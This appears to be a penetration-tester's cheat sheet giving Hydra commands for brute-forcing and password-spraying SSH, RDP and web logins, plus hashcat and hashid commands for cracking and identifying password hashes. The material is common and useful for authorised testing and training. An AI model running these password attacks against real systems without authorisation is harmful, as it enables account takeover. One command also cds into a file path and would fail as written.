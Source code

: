 ### Hydra
Principle here is to gather a username by some other enumeration method. If none can be found then be sure to try `Administrator` on Windows and `root` on Linux.
```bash
cd /usr/share/wordlists/rockyou.txt; sudo gzip -d rockyou.txt.gz
hydra -l <candidate username> -P /usr/share/wordlists/rockyou.txt -s <target port> ssh://<target IP>
```
Assuming you have secured a valid password by some other means but without a username you can leverage _password spraying_.
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "lolzageVerySecurity" rdp://<target IP>
```
Hitting an HTTP endpoint:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt <target IP> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
Hitting a page using http basic auth:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target IP> http-get
```

### Hashcat
Standard `hashcat` usage:
```bash
hashcat crackable.txt /usr/share/wordlists/rockyou.txt
```
For debugging a new rule:
```bash
head /usr/share/wordlists/rockyou.txt > demo.txt
hashcat -r newrule.rule --stdout demo.txt
```
See https://hashcat.net/wiki/doku.php?id=rule_based_attack for docs on the syntax for rules based attacks. Spaces separate discrete instructions to apply to one word. Newlines define a new pattern to attempt. Save it in a `.rules` file.
```bash
hashcat -m <insert hashing algo id here (0 for md5)> crackme.txt /usr/share/wordlists/rockyou.txt -r nonsense.rule --force
```


### Hashid
Hashcat seems to kinda suck at identifying the hash in use for some reason. Fortunately `hashid` doesn't. Nb. take care to use quotes, particularly if your hash starts with a `$` or other syntactically important character.
```bash
hashid "$2y$10$XrrpX8RD6IFvBwtzPuTlcOqJ8kO2px2xsh17f60GZsBKLeszsQTBC"
```